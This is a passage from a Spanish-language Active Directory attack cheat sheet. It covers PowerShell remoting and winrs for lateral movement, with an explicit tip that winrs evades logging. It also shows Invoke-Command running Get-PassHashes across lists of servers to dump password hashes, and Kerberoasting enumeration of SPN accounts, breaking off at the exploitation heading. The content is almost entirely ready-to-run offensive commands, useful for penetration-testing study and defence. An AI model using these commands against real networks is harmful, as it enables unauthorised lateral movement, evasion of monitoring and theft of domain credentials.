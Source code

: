 ```
$mailmgmt = New-PSSession -ComputerName us-mailmgmt -Credential $creds
$mailmgmt
Enter-PSSession -Session $mailmgmt
```

- Se puede usar ``winrs`` en lugar de PSRemoting para evadir el registro (y aún así obtener el beneficio de permitir el tráfico en el puerto 5985 entre los hosts)

```
# Winrs
winrs -r:us-mgmt cmd
winrs -remote:server1 -u:server1\administrator -p:Pass@1234 hostname
```
## Invoke Command

```
### Ejecutar comandos en multiples hosts o bloques de script
Invoke-Command –Scriptblock {Get-Process} -ComputerName (Get-Content <list_of_servers>)

### Ejecutar un script en multiples hosts 
Invoke-Command –FilePath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content <list_of_servers>)
```

```
### Ejecutar la función cargada localmente en las máquinas remotas
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>)

### Si se requieren pasar argumentos
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>) -ArgumentList
```

```
### Ejecutar comando con una sessión definida 
### Invoke-Command + Session
$Sess = New-PSSession –Computername Server1
Invoke-Command –Session $Sess –ScriptBlock {$Proc = Get-Process}
Invoke-Command –Session $Sess –ScriptBlock {$Proc.Name}
```
# Domain Privilege Escalation

- Kerberos es la base de autenticacion en los sistemas de Windows Active Directory
## Kerberoast

### Enumeración

```
# Enumeración de cuentas con SPN configurado
### ActiveDirectory module
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName

### PowerView
Get-DomainUser –SPN
```
### Explotación
